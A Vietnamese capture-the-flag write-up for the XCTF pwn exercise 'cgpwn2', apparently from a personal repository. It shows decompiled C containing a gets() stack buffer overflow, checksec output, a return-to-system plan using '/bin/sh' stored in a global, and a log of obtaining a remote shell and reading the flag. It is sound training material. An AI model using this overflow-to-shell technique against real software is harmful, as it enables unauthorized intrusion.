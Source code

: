 # XCTF - PWN Exercise - cgpwn2

```c
#include<stdio.h>
string name;

int pwn()
{
  return system("echo hehehe");
}

char *hello()
{
  __int16 *p_s; // eax
  char v1; // bl
  unsigned int v2; // ecx
  __int16 *v3; // eax
  __int16 s; // [esp+12h] [ebp-26h] BYREF
  int v6; // [esp+14h] [ebp-24h] BYREF

  p_s = &s;
  v1 = 30;
  if ( ((unsigned __int8)&s & 2) != 0 )
  {
    s = 0;
    p_s = (__int16 *)&v6;
    v1 = 28;
  }
  v2 = 0;
  do
  {
    *(_DWORD *)&p_s[v2 / 2] = 0;
    v2 += 4;
  }
  while ( v2 < (v1 & 0x1Cu) );
  v3 = &p_s[v2 / 2];
  if ( (v1 & 2) != 0 )
    *v3 = 0;
    
  puts("please tell me your name");
  fgets(name, 50, stdin); 	// no cho phep luu /bin/sh vao roi goi lai de nhan shell voi bien toan cuc name 
  puts("hello,you can leave some message here:");
  return gets((char *)&s);	// tra ve dia chi bien toan cuc luu shell vao .bss roi goi dia chi
}

int __cdecl main(int argc, const char **argv, const char **envp)
{
  setbuf(stdin, 0);
  setbuf(stdout, 0);
  setbuf(stderr, 0);
  
  hello();
  
  puts("thank you");
  return 0;
}
```

Kiếm tra các flag secure trước.

```
l1j9m4 in ~/0_PWNable/ADworld_XCTF/Exersice/4_cgpwn2 λ checksec cgpwn2    
[*] '/home/l1j9m4/0_PWNable/ADworld_XCTF/Exersice/4_cgpwn2/cgpwn2'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

Đừng để ý vào đoạn đầu của code được decompile từ IDA vì mình cũng không hiểu nó viết gì :(. Cuối hàm `hello()` ta thấy chương trình nhập vào chuỗi biến toàn cục `name` tối đa 50 kí tự rồi sau đó nhập chuỗi vào `s` với offset so với return address là 0x26 + 0x4 = 0x2a bằng hàm `gets` và không có `Canary` => có thể dùng stack buffer overflow.

Ý tưởng là ta sẽ ghi đè địa chỉ trả về bằng địa chỉ plt của `system` trong hàm `pwn()` sau đó truyền đối số là chuỗi `"/bin/sh"` mà ta sẽ nhập vào ở biến toàn cục `name` trong lần nhập đầu tiên.

Tiến hành viết file [exploit.py](exploit.py) và khai thác:

```
l1j9m4 in ~/0_PWNable/ADworld_XCTF/Exersice/4_cgpwn2 λ python2 exp.py
[+] Opening connection to 111.200.241.244 on port 58199: Done
[*] Switching to interactive mode
$ ls
bin
cgpwn2
dev
flag
lib
lib32
lib64
$ cat flag
cyberpeace{4a613cfb11a70856f8d649e3d9883daa}
$ 
```
